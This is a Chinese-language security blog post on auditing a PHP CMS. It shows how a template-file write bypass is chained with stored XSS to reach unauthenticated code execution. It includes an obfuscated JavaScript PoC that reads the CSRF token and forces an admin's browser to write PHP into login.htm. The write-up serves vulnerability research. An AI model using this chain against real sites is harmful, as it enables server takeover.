 

# 记一次代码审计中 RCE 挖掘及 POC 编写。 - 先知社区

记一次代码审计中 RCE 挖掘及 POC 编写。



记一次 RCE 漏洞挖掘及 POC 编写。

## 从危险的模板引入开始

在前面熟悉代码的过程中，可以注意到此 CMS 的模板引入方式。以 catalog\_add.php 文件为例，直接采用了 include 来将 htm 文件包含，而不是将 php 文件处理的数据放入模板中。也许对于程序员来讲，呈现的效果是一样的，但是在 php 中，include 的使用需要更谨慎才对。  
`include XXInclude('templets/catalog_add.htm');`  
[![](assets/1701606694-228b0aa0256de3b2a559572551b32145.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112103-039a0490-7eaf-1.png)  
问题出现在 src/admin/file\_manage\_control.php 文件，此文件是用于处理文件操作，确保安全性和有效性。但是其中的防护策略并不完全有效，所以出现了漏洞。  
漏洞代码位于文件修改功能  
[![](assets/1701606694-185c44aaf6593c36954223618d775964.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112227-35928274-7eaf-1.png)  
查看变量处理，针对变量$activepath，处理的关键逻辑在 15、16、17 行。  
简单来说主要目的是规范化和确保 $activepath 变量表示的文件路径是安全的，不包含目录遍历或多余的斜杠。  
[![](assets/1701606694-66b08667a681001f793d641eedfbefe4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112308-4e148d92-7eaf-1.png)  
针对变量$filename，处理的关键逻辑在 44-48 行。  
简单来讲目的是确保文件名是安全的，不包含目录遍历攻击所需的`..`，并限制可以上传或编辑的文件扩展名不能为 (php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml) 其中的任意项。  
[![](assets/1701606694-7ec9403ff25e7c44725e2d6daee6bf82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112328-59d8998e-7eaf-1.png)  
有防御，但是不太严。所以绕过一下即可成功修改意料之外的文件内容  
1.因为其只防御了目录遍历，所以并不限制统一目录下的文件夹名  
2.因为其限制的文件名后缀是 (php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml)，所以此系统的模板文件的后缀 htm 会是合法的。  
所以，此时可以将任意文件内容写入到 htm 文件中，为什么要写入到 htm 文件？因为此系统所使用的模板文件就是 htm，而我前面提到了直接采用了 include 来将 htm 文件包含，而不是将 php 文件处理的数据放入模板中会造成的危害也就是这里体现出来：将 php 脚本放在 htm 中，当被 include 的时候，php 脚本便会执行。  
[![](assets/1701606694-e9b0b0e742106059ffb4f3d3a4313c14.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112403-6e596096-7eaf-1.jpg)  
[![](assets/1701606694-05a895b3beb1a81844aba09e892dae0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112437-82ae018c-7eaf-1.png)

## 组合拳进行危害提升

上面可以通过模板文件写入的方式 RCE 了，但是很鸡肋，这样只能是后台 rce，这时候想将漏洞变成未授权的 RCE 只需要解决两个问题：  
1 只有管理员权限才能访问/admin 路由下的大部分文件  
2 只有管理员权限才有修改文件的功能权限。  
第一个问题可以通过 login 文件来解决，因为登录页面当然不需要任何的权限即可访问。  
第二个问题就是通过 XSS、或者 CSRF 打出组合拳或者直接尝试找到 SQL 注入登录后台就能解决。  
那接下来的思路就是通过找到有效的 XSS/CSRF/SQL 注入，让我们能以管理员的身份写入 shell 到/admin/login.htm 文件中。  
进入到 src/admin/article\_edit.php 文件，此文件为系统中的文档修改功能的逻辑处理文件。  
关注此处 148 行有一处疑似有问题的 SQL 语句。  
[![](assets/1701606694-e989d114cceedc92b32701c3f6b8fbbd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112506-943e5ff0-7eaf-1.png)  
这个查询语句的目的是将一条记录跟新到名为 `$addtable`(此处即 biz\_arctype) 的数据库表中，关键在于此处没有使用参数化查询来防止安全问题。

```bash
$query = "UPDATE `#@__archives` SET typeid='$typeid',typeid2='$typeid2',sortrank='$sortrank',flag='$flag',click='$click',ismake='$ismake',arcrank='$arcrank',money='$money',title='$title',color='$color',writer='$writer',source='$source',litpic='$litpic',pubdate='$pubdate',notpost='$notpost',description='$description',keywords='$keywords',shorttitle='$shorttitle',filename='$filename',dutyadmin='$adminid',weight='$weight' WHERE id='$id'; ";
```

进一步跟进 dsql->ExecuteNoneQuery 函数，发现系统是在执行 SQL 的时候做了安全检查，跟进 CheckSql，发现是有针对 SQL 注入存在详细的过滤，不排除有绕过 SQL 的手法，但是此处选择另一条简单的利用思路。  
[![](assets/1701606694-96249784f7c3be5ab7b309a42a22f128.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112548-ad0094b8-7eaf-1.png)  
[![](assets/1701606694-74e80e70b883d4aad990933271f742b7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120020-80033560-7eb4-1.png)  
因为没有对参数做 xss 的过滤，所以此时考虑利用存储型的 XSS 漏洞即可，去功能点用 payload 插入含有输出点的 body 参数进行测试，发现成功执行。  
[![](assets/1701606694-f22dec2282cbaadfd9530e865a8c77fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120049-9183aebe-7eb4-1.png)  
[![](assets/1701606694-fb03ec07772c23e4137cc7236f31bd81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120110-9dbac3b6-7eb4-1.png)

## 整合思路编写 POC

思路也是比较清晰  
1.攻击者利用普通用户的文档编辑功能，将 XSS 的 payload 藏在文档中。  
2.管理员用户对普通用户的文档进行审核时执行 XSS 的 payload，在不知情的情况下将 shell 写在/admin/login.htm 文件中  
3.getshell，地址为：[http://xxx/admin/login.php](http://xxx/admin/login.php)  
POC 和部分截图放在下面

```bash
//将此脚本放在浏览器控制台执行即可获得 payload
var codeString = "//  获取 URL\n" +
    "var url = document.URL;\n" +
    "var domainMatch = url.match(/^(https?:\\/\\/[^/]+)/);\n" +
    "var domain = domainMatch[1];\n" +
    "\n" +
    "//  获取 Cookie\n" +
    "var cookieString = document.cookie;\n" +
    "\n" +
    "// 创建一个新的 form 元素\n" +
    "var form = document.createElement(\"form\");\n" +
    "\n" +
    "// 设置 form 的属性\n" +
    "form.setAttribute(\"method\", \"POST\");\n" +
    "form.setAttribute(\"action\", domain+\"/admin/file_manage_control.php\");\n" +
    "\n" +
    "// 使用正则表达式匹配 dede_csrf_token 的值\n" +
    "var csrfTokenMatch = cookieString.match(/dede_csrf_token=([^;]+)/);\n" +
    "\n" +
    "// 提取匹配到的值\n" +
    "var csrfTokenValue = csrfTokenMatch[1]; // 提取匹配到的值\n" +
    "\n" +
    "// 创建并设置隐藏字段\n" +
    "var fields = [\n" +
    "  { name: \"fmdo\", value: \"edit\" },\n" +
    "  { name: \"backurl\", value: \"\" },\n" +
    "  { name: \"_csrf_token\", value: csrfTokenValue },\n" +
    "  { name: \"activepath\", value: \"/admin/templets\" },\n" +
    "  { name: \"filename\", value: \"login.htm\" },\n" +
    "  { name: \"str\", value: \"1<?php phpinfo();?>\" },\n" +
    "  { name: \"B1\", value: \"\" }\n" +
    "];\n" +
    "\n" +
    "// 遍历字段数组并创建相应的 input 元素\n" +
    "fields.forEach(function (field) {\n" +
    "  var input = document.createElement(\"input\");\n" +
    "  input.setAttribute(\"type\", \"hidden\");\n" +
    "  input.setAttribute(\"name\", field.name);\n" +
    "  input.setAttribute(\"value\", field.value);\n" +
    "  form.appendChild(input);\n" +
    "});\n" +
    "\n" +
    "// 创建一个提交按钮并添加到 form 中\n" +
    "var submitButton = document.createElement(\"input\");\n" +
    "submitButton.setAttribute(\"type\", \"submit\");\n" +
    "submitButton.setAttribute(\"value\", \"Submit request\");\n" +
    "form.appendChild(submitButton);\n" +
    "\n" +
    "// 将 form 添加到文档中并自动提交\n" +
    "document.body.appendChild(form);\n" +
    "form.submit();";
var asciiArray = [];
for (var i = 0; i < codeString.length; i++) {
    asciiArray.push(codeString.charCodeAt(i));
}
var asciiString = asciiArray.join(',');
console.log('<img src="x"\n  onerror="eval(String.fromCharCode('+asciiString+'))">')
```

[![](assets/1701606694-afe8367cc375b2291d1ac5458d5577f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109110801-31582f6c-7ead-1.png)  
本篇文章因为一些原因（懂的都懂）。。。  
在尽量不影响阅读的前提上加了厚马，若有师傅想要源码进行复现学习的可以再联系我。
